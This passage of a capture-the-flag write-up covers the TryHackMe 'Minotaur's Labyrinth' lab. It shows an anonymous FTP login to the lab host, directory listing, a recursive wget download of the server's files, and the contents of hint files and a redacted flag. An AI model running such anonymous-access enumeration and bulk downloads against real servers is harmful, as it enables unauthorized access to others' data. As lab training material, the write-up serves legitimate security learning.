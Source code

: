 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# ftp $RHOSTS
Connected to 10.10.41.201.
220 ProFTPD Server (ProFTPD) [::ffff:10.10.41.201]
Name (10.10.41.201:nam): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
```

We can login as anonymous!

```
ftp> ls -lah
drwxr-xr-x   3 nobody   nogroup      4.0k Jun 15  2021 pub

ftp> ls -lah
drwxr-xr-x   2 root     root         4.0k Jun 15  2021 .secret
-rw-r--r--   1 root     root          141 Jun 15  2021 message.txt
```

```
ftp> cd .secret

ftp> ls -lah
-rw-r--r--   1 root     root           30 Jun 15  2021 flag.txt
-rw-r--r--   1 root     root          114 Jun 15  2021 keep_in_mind.txt
```

Let's download all the files via `wget`!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# wget -r ftp://anonymous:''@$RHOSTS/
```

**message.txt:**
```
┌──(root🌸siunam)-[~/…/ctf/Minotaur's_Labyrinth/10.10.41.201/pub]
└─# cat message.txt 
Daedalus is a clumsy person, he forgets a lot of things arount the labyrinth, have a look around, maybe you'll find something :)
-- Minotaur
```

**keep_in_mind.txt:**
```
┌──(root🌸siunam)-[~/…/Minotaur's_Labyrinth/10.10.41.201/pub/.secret]
└─# cat keep_in_mind.txt 
Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur
```

**Flag1:**
```
┌──(root🌸siunam)-[~/…/Minotaur's_Labyrinth/10.10.41.201/pub/.secret]
└─# cat flag.txt        
fl4g{Redacted}
```

